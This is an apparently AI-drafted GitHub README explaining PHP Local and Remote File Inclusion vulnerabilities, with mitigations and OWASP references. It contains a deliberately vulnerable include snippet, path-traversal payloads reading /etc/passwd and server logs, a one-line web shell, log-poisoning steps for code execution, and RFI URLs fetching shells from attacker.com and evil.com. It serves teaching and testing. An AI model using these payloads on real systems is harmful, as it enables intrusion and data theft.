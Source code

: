 Sure! Here's an extended and **all-in-one Markdown text** for your `README.md`, with more examples, clear definitions, exploitation techniques, and mitigation tips for **LFI (Local File Inclusion)** and **RFI (Remote File Inclusion)**:

---

```markdown
# 🔍 LFI & RFI Vulnerabilities - Explained with Examples

## 📘 Introduction

**Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)** are critical web vulnerabilities that occur when user input is passed to file-inclusion functions (like `include`, `require`, `include_once`, `require_once`) without proper validation. These vulnerabilities can lead to sensitive data exposure, information disclosure, and even remote code execution.

---

## 📂 What is LFI (Local File Inclusion)?

**LFI** allows an attacker to trick the server into including local files (files that exist on the server). This usually happens due to insecure dynamic file loading based on user input.

### ✅ LFI Example (PHP)

```php
<?php
  $page = $_GET['page'];
  include($page);
?>
```

If accessed like:

```
http://example.com/index.php?page=about.php
```

An attacker can exploit it as:

```
http://example.com/index.php?page=../../../../etc/passwd
```

This can show the content of the `/etc/passwd` file (on Linux systems).

### 📁 Common LFI Payloads

- `?page=../../../../etc/passwd`
- `?page=../../../../var/log/apache2/access.log`
- `?page=php://filter/convert.base64-encode/resource=index.php`
- `?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==` (if data wrapper is enabled)

---

## 🌐 What is RFI (Remote File Inclusion)?

**RFI** allows an attacker to include a remote file hosted on another server. If the server is misconfigured (i.e., `allow_url_include = On`), a remote script can be fetched and executed — leading to full compromise.

### ✅ RFI Example (PHP)

```php
<?php
  $page = $_GET['page'];
  include($page);
?>
```

If accessed like:

```
http://example.com/index.php?page=http://attacker.com/shell.txt
```

The `shell.txt` could contain:

```php
<?php system($_GET['cmd']); ?>
```

And the attacker could run:

```
http://example.com/index.php?page=http://attacker.com/shell.txt&cmd=id
```

Resulting in command execution.

---

## 🔥 Real-World Exploitation Scenarios

### 🐚 LFI to RCE via Log Poisoning

1. Send a request with malicious PHP code in the User-Agent:
   ```
   User-Agent: <?php system($_GET['cmd']); ?>
   ```

2. Then load the Apache log file:
   ```
   http://example.com/index.php?page=../../../../var/log/apache2/access.log&cmd=ls
   ```

3. Code gets executed when the file is included!

---

### 📸 LFI using Base64 Wrapper

```php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

This encodes the source code of the file in base64, useful for code disclosure without execution.

---

## 💣 Impact of LFI & RFI

| Vulnerability | Possible Impact |
|---------------|------------------|
| LFI           | Sensitive file disclosure, RCE via log poisoning, session hijacking |
| RFI           | Remote Code Execution, server takeover, malware injection |

---

## 🛡️ Mitigation & Best Practices

- Never include files based directly on user input.
- Use whitelists for permitted files.
- Disable remote file inclusion in `php.ini`:
  ```ini
  allow_url_include = Off
  allow_url_fopen = Off
  ```
- Validate and sanitize all input using strict filtering.
- Use absolute paths or hardcoded file mappings instead of dynamic includes.

---

## 🧪 Test Your App

### LFI Test Payloads:

```
?page=../../../../etc/passwd
?page=../../../../boot.ini
?page=php://filter/convert.base64-encode/resource=index.php
```

### RFI Test Payloads:

```
?page=http://evil.com/malicious.txt
?page=https://attacker.site/backdoor.php
```

---

## 🧠 References

- [OWASP - Local File Inclusion](https://owasp.org/www-community/attacks/Local_File_Inclusion)
- [OWASP - Remote File Inclusion](https://owasp.org/www-community/attacks/Remote_File_Inclusion)
- [PHP Wrappers](https://www.php.net/wrappers)

---

## 👨‍💻 Author

Made for security researchers, CTF players, and students.  
Keep learning, stay ethical! 🛡️

```
** Younes SABER**
[seeyou](https://github.com/seeyou7)
---


